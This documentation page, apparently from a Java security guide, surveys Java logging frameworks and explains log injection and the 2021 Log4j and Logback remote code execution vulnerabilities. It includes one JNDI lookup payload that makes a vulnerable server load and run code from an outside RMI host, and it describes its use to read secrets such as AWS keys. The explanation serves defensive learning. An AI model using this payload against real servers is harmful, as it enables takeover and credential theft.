 ```yaml
---
title: Logging
sidebar_position: 2
---
```


# Logging

Java developers have a large number of choices for logging:

 * System Logger - introduced in Java 9 (2017), an API that acts as a facade to other loggers.
 * JUL - Introduced in Java 1.4 (2002), the Java Util Logger, is generally available.
 * Log4j
    * Log4j2 - Released in 2014, a fast logging framework.
    * Log4j - Released in 2001 and end-of-lifed in 2015.
 * Logback
    * Logback - Released 2006, intended as a successor of log4j.
    * SLF4J - Released 2005, a simple logging facade. This does not provide a logger, it provides a single API that can consolidate the other loggers.
 * Apache Commong-Logging - Released in 2002 and end-of-lifed in 2014.
 * TinyLogger - Released in 2012, a fast logging framework.

Many Java applications include more that one logger. In a [2020 study by York University](https://nemo9cby.github.io/resources/pubs/icse2020_chen.pdf), researchers identified that Hadoop used six loggers and IntelliJ used twelve.

## Logging Vulnerabilities

The main type of vulnerability that impacts logs it [Log Injection](../vulnerabilities/log-injection.mdx).

In 2021, the logging framework Log4j, [Log4J2](https://nvd.nist.gov/vuln/detail/CVE-2021-45046), and [Logback](https://cve.report/CVE-2021-42550) were vulnerable to [Remote Code Execution](../vulnerabilities/remote-code-execution.md), allowing attackers to take control over these servers when they logged user input. The vulnerable versions of log4j spanned from 2014 to 2021. Attackers could craft input that caused the application to load and execute remote classes over JNDI.

```
${jndi:rmi://192.168.2.106:1099/vccvhr}
```

When a server with a vulnerable Log4j writes that String to a log, it loads the remote code from the host and executes it. Attackers took advantage of this in two ways:

 1. Compromising the server to run code and steal data.
 2. Expanding environment variables in the URL's hostname, to read sensitive data like AWS keys.